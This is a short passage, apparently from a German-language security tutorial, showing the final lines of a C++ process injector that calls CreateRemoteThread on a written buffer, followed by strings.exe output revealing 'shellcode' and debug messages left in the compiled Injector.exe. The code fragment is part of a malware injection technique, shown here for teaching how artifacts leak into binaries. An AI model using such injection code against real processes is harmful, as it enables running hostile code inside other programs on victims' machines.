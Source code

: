 ```c++
	remoteThread = CreateRemoteThread(processHandle, NULL, 0, (LPTHREAD_START_ROUTINE)remoteBuffer, NULL, 0, NULL);
	CloseHandle(processHandle);
	cout << "Closing handle" << processHandle;
	cout << leaked;

	return 0;
}
```

Lassen Sie uns die Zeichenfolgen verwenden, um genau zu sehen, was durchgesickert ist, wenn dieser Quellcode kompiliert wird.
```cmd
C:\>.\strings.exe "\Injector.exe"

Strings v2.54 - Search for ANSI and Unicode strings in binary images.
Copyright (C) 1999-2021 Mark Russinovich
Sysinternals - www.sysinternals.com

!This program cannot be run in DOS mode.
>FU
z';
z';
...
[snip]
...
Y_^[
leaked
shellcode
2_^[]
...
[snip]
...
std::_Adjust_manually_vector_aligned
"invalid argument"
string too long
This was leaked in the strings
Handle obtained for
Buffer Created
Process written with buffer
Closing handle
std::_Allocate_manually_vector_aligned
bad allocation
Stack around the variable '
...
[snip]
...
8@9H9T9X9\\9h9|9
:$:(:D:H:
@1p1
```
